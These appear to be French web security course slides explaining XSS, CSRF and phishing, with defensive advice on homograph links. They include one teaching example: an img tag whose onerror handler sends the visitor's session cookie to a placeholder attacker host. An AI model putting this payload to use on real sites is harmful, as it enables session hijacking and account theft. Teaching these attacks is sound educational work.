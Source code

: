 # Cross Site Scripting (XSS)

* Enjeux : tout ce qui est possible en JS
	* Redirection
	* Lecture de cookies (session, ...)
	* Envoi d'info à un autre serveur
	* Modification du contenu de la page
	* ...
* Souvent utilisé pour transmettre le cookie de session

```html
<img src="http://www.urlinexistante.com/im.jpg"
     onerror="window.location='http://www.pirate.com/recupcookie.jsp?
     cookie='+document.cookie';">
```

# 3 types de XSS

* Reflected XSS
	* Affichage d'une partie de la requête (recherche, erreur, ...)
* Stored XSS
	* Stockage dans la BDD et affichage (= exécution) par plusieurs clients
* DOM based XSS
	* Exécutée lors de la modification du DOM ([Exemple][2])

# Cross Site Request Forgery (CSRF - Sea Surf)

* **Principe** :
	* Faire réaliser à quelqu'un une action à son insu, avec ses propres infos d'authentification (credentials)
* Envoi par mail ou post forum de liens ou images
* Les URL correspondent à actions (vote, suppression, ...)

[Exemple][3] (SOP, CORS)

# Phishing

* Site sosie d'un site officiel :
	1. L'utilisateur saisit ses données...
	2. ... l'attaquant les récupère...
	3. ... et les utilise sur le site officiel
* Difficile à contrer pour le développeur
* L'utilisateur doit être prudent
* Bien lire les URLS et le GUI du navigateur pas toujours suffisant
* Ne pas utiliser de lien dont on n'est pas sur de la source ([Homograph Attack][4], [Homoglyphes][38], [Unicode Spoofing][39])

# Risques non liés à l'application

